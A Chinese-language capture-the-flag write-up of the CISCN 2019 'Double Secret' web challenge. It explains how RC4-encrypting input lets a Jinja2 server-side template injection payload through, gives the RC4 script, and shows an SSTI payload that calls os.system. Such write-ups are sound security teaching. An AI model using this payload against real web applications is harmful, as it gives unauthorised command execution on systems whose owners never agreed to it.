 #SSTI
存在 /secret 目录

传参 secret 在 报错页面有部分 app.py 代码

```python
    if(secret==None):
        return 'Tell me your secret.I will encrypt it so others can\'t see'
    rc=rc4_Modified.RC4("HereIsTreasure")   #解密
    deS=rc.do_crypt(secret)

    a=render_template_string(safe(deS))

    if 'ciscn' in a.lower():
        return 'flag detected!'
    return a
```

RC4 是一种加密算法，对称加密，对明文加密一次得到密文，对密文加密一次又会得到明文
如果我们输入密文，则返回的是明文

```python
# RC4是一种对称加密算法，那么对密文进行再次加密就可以得到原来的明文

import base64
from urllib.parse import quote


def rc4_main(key="init_key", message="init_message"):
    # print("RC4加密主函数")
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return crypt


def rc4_init_sbox(key):
    s_box = list(range(256))  # 我这里没管秘钥小于256的情况，小于256不断重复填充即可
    # print("原来的 s 盒：%s" % s_box)
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    # print("混乱后的 s 盒：%s"% s_box)
    return s_box


def rc4_excrypt(plain, box):
    # print("调用加密程序成功。")
    res = []
    i = j = 0
    for s in plain:
        i = (i + 1) % 256
        j = (j + box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] + box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    # print("res用于加密字符串，加密后是：%res" %res)
    cipher = "".join(res)
    print("加密后的字符串是：%s" % quote(cipher))
    # print("加密后的输出(经过编码):")
    # print(str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
    return str(base64.b64encode(cipher.encode('utf-8')), 'utf-8')


rc4_main("key", "text")


```

之后利用模板注入，将 payload 加密后传入

利用 os

```python
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')
```

参考
[[CISCN 2019 华东南]Double Secret_ph0ebus 的博客-CSDN 博客](https://blog.csdn.net/qq_46266259/article/details/128920290)
